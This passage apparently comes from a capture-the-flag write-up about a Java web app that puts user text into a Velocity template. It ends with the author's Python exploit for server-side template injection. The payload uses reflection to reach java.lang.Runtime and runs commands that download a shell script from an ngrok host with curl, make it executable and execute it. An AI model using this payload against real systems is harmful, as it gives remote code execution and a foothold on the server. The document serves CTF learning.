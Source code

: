 ``` java
		} catch (ParseException e) {
			e.printStackTrace();
		}

		return template;
	}
```

The readFileToString function will replace "TEXT" in the index.html file and render textString:

``` java
	public static String readFileToString(String filePath, String replacement) throws IOException {
        StringBuilder content = new StringBuilder();
        BufferedReader bufferedReader = null;

        try {
            bufferedReader = new BufferedReader(new FileReader(filePath));
            String line;
            
            while ((line = bufferedReader.readLine()) != null) {
                line = line.replace("TEXT", replacement);
                content.append(line);
                content.append("\n");
            }
        } finally {
            if (bufferedReader != null) {
                try {
                    bufferedReader.close();
                } catch (IOException e) {
                    e.printStackTrace();
                }
            }
        }

        return content.toString();
    }
```

The source code analysis is vulnerable to Server-Side Template Injection (SSTI) in Velocity:

Here is the exploit I used:

``` python
import requests
from urllib.parse import *

URL = "http://83.136.254.223:48094/"

class Exploit:
	def __init__(self, url=URL):
		self.url = url

	def exp(self):
		payload = """
		#set($s=\"\") 
		#set($stringClass=$s.getClass()) 
		#set($runtime=$stringClass.forName(\"java.lang.Runtime\").getRuntime()) 
		#set($process=$runtime.exec(\"curl -O https://faf0-182-253-54-11.ngrok-free.app/banua.sh\")) 
		#set($process=$runtime.exec(\"chmod +x banua.sh\")) 
		#set($process=$runtime.exec(\"sh banua.sh\")) 
		#set($null=$process.waitFor() )
		"""
		data = {"text": payload}
		res = requests.post(self.url, data=data)

```